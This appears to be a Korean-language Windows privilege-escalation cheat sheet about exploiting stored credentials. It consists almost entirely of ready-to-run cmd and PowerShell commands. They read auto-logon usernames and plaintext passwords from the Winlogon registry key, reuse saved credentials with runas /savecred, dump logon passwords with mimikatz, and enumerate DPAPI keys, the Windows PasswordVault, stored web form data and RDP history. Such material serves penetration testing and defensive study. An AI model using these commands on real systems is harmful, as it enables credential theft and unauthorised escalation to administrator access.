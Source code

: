### 🔐 자동 로그온 자격 증명 악용

```cmd
:: 1. 자격 증명 확인
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

:: 2. 발견된 자격 증명으로 로그인
:: DefaultUserName과 DefaultPassword 값 확인
runas /user:DOMAIN\USERNAME cmd
:: 또는
runas /user:USERNAME cmd

:: 3. 관리자 계정인 경우 즉시 권한상승 완료
:: 일반 사용자인 경우 다른 privesc 기법 적용
```

```powershell
# PowerShell로 자동 로그온 정보 확인
$winlogon = Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
if ($winlogon.DefaultUserName) {
    Write-Host "Auto-logon User: $($winlogon.DefaultUserName)" -ForegroundColor Red
    if ($winlogon.DefaultPassword) {
        Write-Host "Auto-logon Password: $($winlogon.DefaultPassword)" -ForegroundColor Red
    }
}
```

### 💾 저장된 자격 증명 악용

```cmd
:: 1. 저장된 자격 증명 확인
cmdkey /list

:: 2. 저장된 자격 증명으로 명령 실행
runas /savecred /user:DOMAIN\ADMIN cmd

:: 3. Windows Credential Manager 확인
rundll32.exe keymgr.dll,KRShowKeyMgr

:: 4. 자격 증명 덤프 (미미카츠 등)
mimikatz.exe "sekurlsa::logonpasswords"

:: 5. DPAPI 마스터 키 접근
dir /a %APPDATA%\Microsoft\Protect\
dir /a %LOCALAPPDATA%\Microsoft\Protect\
```

```powershell
# PowerShell로 저장된 자격 증명 확인
# 1. Generic 자격 증명 확인
[Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]::new().RetrieveAll()

# 2. Web 자격 증명 확인
Get-ChildItem "HKCU:\SOFTWARE\Microsoft\Internet Explorer\IntelliForms\Storage2" -ErrorAction SilentlyContinue

# 3. 저장된 RDP 연결 정보
Get-ChildItem "HKCU:\SOFTWARE\Microsoft\Terminal Server Client\Servers" -ErrorAction SilentlyContinue
```
